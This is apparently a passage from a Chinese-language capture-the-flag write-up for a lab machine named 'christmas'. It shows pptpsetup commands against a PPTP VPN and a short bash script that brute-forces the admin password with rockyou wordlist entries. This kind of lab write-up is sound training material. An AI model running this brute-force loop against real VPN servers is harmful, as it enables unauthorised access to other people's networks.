 #### 尝试连接服务

```bash
mkdir christmas
cd christmas
┌──(kali💀kali)-[~/temp/christmas]
└─$ pptpsetup --create vpn --server christmas.hmv --username admin --password password --encrypt --start
/usr/sbin/pptpsetup: can't write to '/etc/ppp/chap-secrets': Permission denied
┌──(kali💀kali)-[~/temp/christmas]
└─$ sudo pptpsetup --create vpn --server christmas.hmv --username admin --password password --encrypt --start
```

```bash
pptpsetup --create <TUNNEL> --server <SERVER> [--domain <DOMAIN>]
          --username <USERNAME> [--password <PASSWORD>]
          [--encrypt] [--start]
```

但是会出现认证失败：

```text
Using interface ppp0
Connect: ppp0 <--> /dev/pts/4
MS-CHAP authentication failed: Access denied
CHAP authentication failed
Modem hangup
Connection terminated.
```

### 爆破vpn

这是很正常的，因为我们不知道账号密码，使用`rockyou`字典尝试爆破`vpn`，使用弱用户名`admin`进行尝试，

使用kali自带的`thc-pptp-bruter`不能生效，似乎只能使用shell脚本进行攻击了。。

这里直接借鉴作者的`brutevpn.sh`脚本，思路很简单就是读取字典重复尝试命令，可以的话输出，不可以的话显示正在使用的payload：

```bash
while read -r line ; do
	pptpsetup --create vpn --server christmas.hmv --username admin --password "$line" --encrypt --start &>/dev/null
	echo > /etc/ppp/chap-secrets
	if ip link show ppp0 &>/dev/null ; then
		echo "[+] Password: $line"
		exit 0
	else echo -en "[x] Payload: $line\r"
	fi
done < wordlists	
```

```bash
head -n 100 /usr/share/wordlists/rockyou.txt > wordlists
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404022019303.png" alt="image-20240402173538200" style="zoom:50%;" />
